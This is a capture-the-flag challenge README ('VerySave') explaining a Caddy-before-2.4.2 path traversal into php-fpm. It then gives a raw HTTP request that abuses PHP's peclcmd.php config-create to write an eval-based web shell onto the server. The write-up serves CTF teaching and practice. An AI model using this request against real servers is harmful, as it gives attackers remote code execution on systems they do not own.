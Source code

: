 # VerySave

## How to Setup Environment

`cd docker && docker-compose up -d`

## Write Up

I learn a funny issue from [2-and-a-bit-of-magic](https://speakerdeck.com/greendog/2-and-a-bit-of-magic)

Caddy before 2.4.2 can path traversal in php-fpm

At the same time, I think of [MeowWorld in 巅峰极客](https://www.anquanke.com/post/id/218977#h2-3) and [camp-ctf-2015](https://web.archive.org/web/20201022203937/https://khack40.info/camp-ctf-2015-trolol-web-write-up/).Great thanks to them, I made a funny challenge.

register_argc_argv is TRUE in default PHP docker configuration and peclcmd.php is in default PHP docker.

### Exploit

```
GET /../usr/local/lib/php/peclcmd.php?+config-create+/srv/<?=eval($_POST[1]);?>/*+/srv/qqqq.php HTTP/1.1
Host: test.local:54120
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.131 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close


```

